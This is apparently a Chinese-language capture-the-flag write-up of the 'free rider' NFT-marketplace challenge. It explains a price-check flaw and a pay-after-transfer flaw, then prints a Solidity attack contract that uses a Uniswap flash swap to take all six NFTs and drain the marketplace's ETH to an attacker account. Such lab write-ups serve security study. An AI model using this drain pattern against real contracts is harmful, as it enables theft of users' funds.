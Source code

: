 该挑战的目标是将NFT市场中的所有NFT（6个）以小于买家付出的ETH获得，并将NFT转给买家的合约。

查看NFT市场合约，可以发现有这么一个漏洞：该合约在购买NFT时仅仅检查购买者发送的ETH数量是否大于单个NFT的价格，而不是购买者购买的所有NFT价格之和。因此我便可以以1个NFT的价格拿走市场上的6个NFT,从而实现套利。
然而由一开始我的ETH余额很少，甚至不够支付1个NFT的价格。因此我需要借助uniswap的闪电贷获得我的初始资金WETH，换成ETH，然后我就可以用1个NFT的价格买走6个NFT了。
这就结束了？当然没有，我还能利用这个漏洞抽干这个NFT市场的所有ETH！我只需要为这6个NFT分别以$\frac{NFTMarket.ETHbalance}{5}$的价格挂单，并且以上述价格买总计6个NFT，就可以把剩下的ETH全部提取出来。
之后这个NFT市场就没有利用价值了，我们只需要把这6个NFT转移给买家，并且把所有的ETH转移给自己的账户就可以超额通过这项挑战了。

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
        weth.withdraw(BORROW_NUMBER);
        uint256[] memory tokenIds = new uint256[](6);
        uint256[] memory price = new uint256[](6);
        for (uint i = 0; i < 6; i++) {
            tokenIds[i] = i;
        }
        NFT.setApprovalForAll(address (NFTMarket),true);
        NFTMarket.buyMany{value : NFT_PRICE}(tokenIds);
        uint nft_price = address(NFTMarket).balance / 5;
        for (uint i = 0; i < 6; i++) {
            price[i] = nft_price;
        }
        NFTMarket.offerMany(tokenIds,price);
        NFTMarket.buyMany{value : nft_price}(tokenIds);
        for (uint i = 0; i < 6; i++) {
            NFT.safeTransferFrom(address(this), NFTReceiver, tokenIds[i]);
        }
        weth.deposit{value : REPAY_NUMBER}();
        weth.transfer(address(uniswap), REPAY_NUMBER);
        require(payable(attacker).send(address(this).balance), "send final eth to attacker failed!");
    }

    function attack() external payable {
        uniswap.swap(BORROW_NUMBER, 0, address(this), new bytes(32));
    }

然而我漏掉了搭便车的真正漏洞：

    function _buyOne(uint256 tokenId) private {       
        uint256 priceToPay = offers[tokenId];
        require(priceToPay > 0, "Token is not being offered");
        
        require(msg.value >= priceToPay, "Amount paid is not enough");
    
        amountOfOffers--;
    
        // transfer from seller to buyer
        token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);
    
        // pay seller
        payable(token.ownerOf(tokenId)).sendValue(priceToPay);
    
        emit NFTBought(msg.sender, tokenId, priceToPay);
    }    
可以看到这个NFT市场在结算的时候，是先将NFT转移给买方，再给NFT所有者发送定价的ETH的。然而NFT转给买方以后，所有者就是买方了，相当于给买方NFT也给ETH，这也就是搭便车的真正含义。市场原本是要转钱给卖方的，但是由于顺序错误导致了失误。
